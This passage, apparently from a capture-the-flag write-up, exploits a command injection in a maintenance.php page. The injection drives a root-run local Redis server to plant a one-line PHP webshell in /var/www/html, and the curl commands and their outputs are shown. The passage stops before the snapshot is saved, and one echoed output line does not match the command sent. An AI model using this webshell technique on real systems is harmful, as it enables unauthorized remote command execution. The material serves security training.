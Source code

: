 Excellent. Next question, where is this redis server? Maybe it’s on another host? I checked to see if our current box has a `redis-server` running:

```text
player@f9292a141ef5:~$ ps -ef | grep redis
root         6     1  0 10:54 pts/0    00:00:00 /usr/bin/redis-server 127.0.0.1:6379
player      61    48  0 10:57 pts/0    00:00:00 grep redis
```

Alright, so the redis-server is local. Running as root too! It won’t necessarily mean we'll become root exploiting the RCE as the primitive is usually that we can write anything, anywhere. Let's investigate the web directory for the local web server.

```text
player@f9292a141ef5:~$ cd /var/www/html/
-bash: cd: /var/www/html/: Permission denied
player@f9292a141ef5:~$ cd /var/www/
player@f9292a141ef5:/var/www$ ls -la
total 20
drwxr-xr-x 1 root     root     4096 Nov 24 18:52 .
drwxr-xr-x 1 root     root     4096 Nov 24 18:52 ..
drwx------ 1 www-data www-data 4096 Dec 31 10:54 html
player@f9292a141ef5:/var/www$ 
```

Ah! We can't see what's inside `/var/www/html`, but redis running as root shouldn't have any problems with that. That gives us a plan of attack. Write a webshell to somewhere in `/var/www/html` using the Redis command injection we have, and then execute commands as `www-data` (the webserver is running as this user) to read the `index.php` file they mention.

Writing a web shell via Redis is done by configuring Redis (via the command injection) where to save database snapshots, adding a new key containing a web shell, then saving a snapshot. This results in the web shell being written to the path we specified.

We know the web server is configured to use PHP, so a small PHP webshell like this should be fine.

```php
<?=`$_GET[1]`?>
```

Let's write the shell to `/var/www/html/c.php`. Remember the hint we got when we cURL'd the `maintenance.php` file stating that commands should be separated by commas. I lost some time by not reading that properly.

```text
player@8bba634ccf77:~$ curl http://localhost/maintenance.php?cmd="config,set,dir,/var/www/html"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dir' '/var/www/html'
OK
```

```text
player@8bba634ccf77:~$ curl http://localhost/maintenance.php?cmd="config,set,dbfilename,c.php"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dbfilename' 'c.php'
OK
```

```text
player@8bba634ccf77:~$ curl http://localhost/maintenance.php?cmd="set,shell,%3C%3F%3D%60%24_GET%5B1%5D%60%3F%3E"
Running: redis-cli --raw -a '<password censored>' 'set' 'set' '<?=`$_GET[1]`'
OK
```
